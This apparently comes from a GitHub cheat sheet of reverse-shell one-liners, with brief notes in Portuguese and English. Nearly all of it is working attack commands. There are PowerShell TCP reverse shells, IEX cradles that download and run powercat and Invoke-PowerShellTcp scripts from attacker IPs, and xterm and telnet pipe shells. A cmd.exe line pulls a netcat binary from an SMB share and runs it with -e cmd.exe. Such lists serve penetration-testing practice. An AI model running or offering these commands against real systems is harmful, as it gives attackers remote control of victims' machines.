     
    powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.14.17",8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

    powershell -ExecutionPolicy Bypass -c "IEX(New-Object System.Net.WebClient).DownloadString('http://10.10.14.17/powercat.ps1');powercat -c 10.10.14.17 -p 8081 -e powershell"
    
    powershell -ExecutionPolicy Bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.134/invoke-powershell-tcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.134 -Port 443

    $client = New-Object System.Net.Sockets.TCPClient('10.10.14.17',8081);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

# xterm
One of the simplest forms of reverse shell is an xterm session.  The following command should be run on the server.  It will try to connect back to you (10.0.0.1) on TCP port 6001.

    xterm -display 10.0.0.1:1
To catch the incoming xterm, start an X-Server (:1 – which listens on TCP port 6001).  One way to do this is with Xnest (to be run on your system):

Xnest :1
You’ll need to authorise the target to connect to you (command also run on your host):

    xhost +targetip
    
# telnet

    telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
    
    rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p

# CMD

Aqui vale uns comentários. Vale ressalltar que todos eles dependem de um terceiro para funcionar. Seja o netcat ou seja o powershell com duas variações interessantes.

Como o CMD em si não proporciona nenhuma ferramenta para obtermos shell reversa, temos algumas opções interessantes aqui  disponíveis... são elas:

    C:\Windows\System32\cmd.exe /c "mkdir c:\temp & copy \\10.10.14.11\smb\nc64.exe c:\temp\w.exe & c:\temp\w.exe -e C:\Windows\System32\cmd.exe 10.10.14.11 8082"
 
Nesse caso temos a opção de subir um netcat na máquina alvo e executá-lo conforme comando acima. Outra opção seria utilizar o powershell para abertura dessa shell
